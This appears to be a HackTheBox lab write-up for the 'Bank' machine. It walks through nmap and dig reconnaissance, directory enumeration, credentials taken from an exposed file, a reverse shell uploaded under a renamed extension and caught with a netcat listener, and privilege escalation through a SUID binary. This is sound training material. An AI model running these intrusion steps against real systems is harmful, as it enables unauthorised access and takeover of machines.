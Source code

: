 ```yaml
---
title: Bank - A HackTheBox machine 
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - walkthrough
  - enumeration
  - reverse shell
  - suid binaries
---
```


# Bank - A HackTheBox machine

The entire exploitation of this machine depends on:

- reconnaissance phase: being able to determine that some "dns digging" or "/etc/host" changes must be done. Also, there is some guessing. You need to assume that bank.htb is a valid domain for a dns transfer... mmm weird.
- enumeration phase: using the right dictionary to locate a data breach with password for accessing.

Later on, other skills are appreciated, such as reading comments on source code. 

## User's flag

### Reconnaisance

```bash
nmap -sV -sC -Pn  -p-
```

Results:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08eed030d545e459db4d54a8dc5cef15 (DSA)
|   2048 b8e015482d0df0f17333b78164084a91 (RSA)
|   256 a04c94d17b6ea8fd07fe11eb88d51665 (ECDSA)
|_  256 2d794430c8bb5e8f07cf5b72efa16d67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-title: HTB Bank - Login
|_Requested resource was login.php
|_http-server-header: Apache/2.4.7 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's check UDP connections to port 53:

```bash
sudo nmap -sU -sC -sV -Pn 10.129.29.200 -p53
```

Results:

```
PORT   STATE SERVICE VERSION
53/udp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


Open browser and examine http://10.129.29.200 and an Apache web server banner.

Since the DNS server is running on port 53 TCP/UDP, we can attempt a zone transfer. However, it is worth noting that guessing bank.thb as a valid zone for this transfer is not a very realistic or scientific approach to penetration testing. Nevertheless, since this is HackTheBox and we are playing this game, let's allow ourselves to go with the flow.

Go here for "[digging more into DNS transfer zones](dig.md)".

```shell
dig axfr bank.htb @10.129.29.200
```

Results:

```
; <<>> DiG 9.18.12-1-Debian <<>> axfr bank.htb @10.129.29.200
;; global options: +cmd
bank.htb.               604800  IN      SOA     bank.htb. chris.bank.htb. 6 604800 86400 2419200 604800
bank.htb.               604800  IN      NS      ns.bank.htb.
bank.htb.               604800  IN      A       10.129.29.200
ns.bank.htb.            604800  IN      A       10.129.29.200
www.bank.htb.           604800  IN      CNAME   bank.htb.
bank.htb.               604800  IN      SOA     bank.htb. chris.bank.htb. 6 604800 86400 2419200 604800
```

Add those results to /etc/hosts:

```bash
echo "10.129.29.200   bank.htb chris.bank.htb ns.bank.htb www.bank.htb" | sudo tee -a /etc/hosts 
```

### Enumeration

```bash
whatweb http://bank.htb
```

Results:

```
http://bank.htb [302 Found] Apache[2.4.7], Bootstrap, Cookies[HTBBankAuth], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[10.129.29.200], JQuery, PHP[5.5.9-1ubuntu4.21], RedirectLocation[login.php], Script, X-Powered-By[PHP/5.5.9-1ubuntu4.21]                                                                                                       
http://bank.htb/login.php [200 OK] Apache[2.4.7], Bootstrap, Cookies[HTBBankAuth], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[10.129.29.200], JQuery, PHP[5.5.9-1ubuntu4.21], PasswordField[inputPassword], Script, Title[HTB Bank - Login], X-Powered-By[PHP/5.5.9-1ubuntu4.21]
```

After browsing the site, reading the source code and trying some SQL injections, let's do some more enumeration.

```bash
gobuster dir -u http://bank.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

Results:

```
/uploads              (Status: 301) [Size: 305] [--> http://bank.htb/uploads/]
/assets               (Status: 301) [Size: 304] [--> http://bank.htb/assets/]
/inc                  (Status: 301) [Size: 301] [--> http://bank.htb/inc/]
/server-status        (Status: 403) [Size: 288]
/balance-transfer     (Status: 301) [Size: 314] [--> http://bank.htb/balance-transfer/]

```

We have  a data breach under http://bank.htb/balance-transfer/

### Exploitation

Browsing that exposed URL we can filter columns by size. That would be a quick way to spot the file that contains the credentials (it has a different size from the others). Again, this is HackTheBox and not the reality. In the real world you would probably download as silently as possible all the files, for further processing.  

But this is HackTheBox and we have credentials to proceed to the next step. Login into the dashboard http://bank.htb/login.php:

```
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===
```

Browsing around a little, and reading source code, you can easily find a valuable debug comment:

![debug comment](img/bank_2.png)

With this, I just modified my [pentesmonkey](pentesmonkey.md) file to extension .htb and had it uploaded. Under column "Attachment" in the dashboard, you have the link to the uploaded file.

Start a netcat listener:

```bash
nc -lnvp 1234
```

In my case, I clicked on http://bank.htb/uploads/pentesmonkey.htb and got a reverse shell.

Cat the user.txt


## Flag root.txt

After some basic reconnaissance, I run:

```bash
find / -perm /4000 2>/dev/null
```

And results:

```
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
...
```

`/var/htb/bin/emergency` catches our attention inmediately. Doing a strings on it we can see that it contains a "/bin/bash" command. After resolving this machine, I read [this writeup](https://0xdf.gitlab.io/2020/07/07/htb-bank.html#emergency) and got some insights about how to investigate an elf file beyond doing some strings. In this writeup, a md5sum is done and googling the hash returned that this elf file is in reality a dash shell.

Nice. Run the binary and you are root.

```bash
./var/htb/bin/emergency
```

